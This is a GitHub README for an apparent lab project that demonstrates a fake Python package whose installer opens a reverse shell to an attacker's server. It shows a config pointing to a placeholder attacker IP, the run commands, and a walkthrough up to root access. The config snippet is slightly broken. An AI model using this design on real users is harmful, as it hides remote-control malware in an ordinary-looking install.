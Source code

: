 # Nevertrust

This project Simulates a fake library of python that when the target see the installation of the packets, there is a side channel that open a connection to attacker and give him possible Shellcode attack.
## Installation

You need to install socket and tqdm libraries
```bash
pip install socket tqdm 
```

## Preparations

First, you make sure that you insert the correct IP of the attacker in the client file.
```python
SERVER_HOST = "IP_of_attacker"
SERVER_PORT = 5004
BUFFER_SIZE = 1440  # max size of messages, setting to 1440 after experimentation, MTU size
# separator string for sending 2 messages in one go
SEPARATOR = "<sep>
```

# Run
We will be use with two machine, the first one will be Parrot is for the attacker and the second, Kali Linux for the target.


```
python3 server.py
```
![צילום מסך 2024-01-25 065805](https://github.com/ronch11/Nevertrust/assets/71279601/bd3e7152-2010-4b24-b127-b0101115d547)

Now let's install our library on the client
```bash
python3 my_install.py 
```
![צילום מסך 2024-01-25 081905](https://github.com/ronch11/Nevertrust/assets/71279601/c0f5c945-c830-47cb-81ad-5cb2a8d004ea)

![צילום מסך 2024-01-25 082236](https://github.com/ronch11/Nevertrust/assets/71279601/33d66ea4-6800-403f-946b-b18aa26f9a2b)


Now let's check the connction between the sides

we can see that connction success
![צילום מסך 2024-01-25 082621](https://github.com/ronch11/Nevertrust/assets/71279601/f553ad0a-14e1-4f89-9a1e-71149e671a3b)


For see all targets we can use with the command list
![צילום מסך 2024-01-25 083157](https://github.com/ronch11/Nevertrust/assets/71279601/957d25c4-64be-4f98-9372-399362f8ad6a)

To choose the target we use with the command use X
X - will be the choosen index  
![צילום מסך 2024-01-25 083413](https://github.com/ronch11/Nevertrust/assets/71279601/0133d92a-2193-4101-babc-6e7699e8c95c)

Now we can see that we are in the shell of the target!
Let's cheek the IP of the target
![צילום מסך 2024-01-25 084225](https://github.com/ronch11/Nevertrust/assets/71279601/6d212c82-3fe2-42b7-a3b4-d445915f6006)

 We can see that we get the same IP address on the Parrot shell
![צילום מסך 2024-01-25 084416](https://github.com/ronch11/Nevertrust/assets/71279601/a48de220-54ae-49c7-8e5f-24dc1c82101f)

We run the installion on the client without using sudo, so we are the permissions of the currect user
![צילום מסך 2024-01-25 085109](https://github.com/ronch11/Nevertrust/assets/71279601/edbbb725-2b00-40cf-9642-88ecb2ac6bf8)

Now let's run the install with sudo
```bash
sudo python3 my_install.py 
```
![צילום מסך 2024-01-25 085850](https://github.com/ronch11/Nevertrust/assets/71279601/632a0170-091b-4301-9045-5d5f2d8ddadd)

Now let's check wich prmition we are have

![צילום מסך 2024-01-25 085827](https://github.com/ronch11/Nevertrust/assets/71279601/14c8fef0-3976-4d59-9902-46b0d3a4316d)
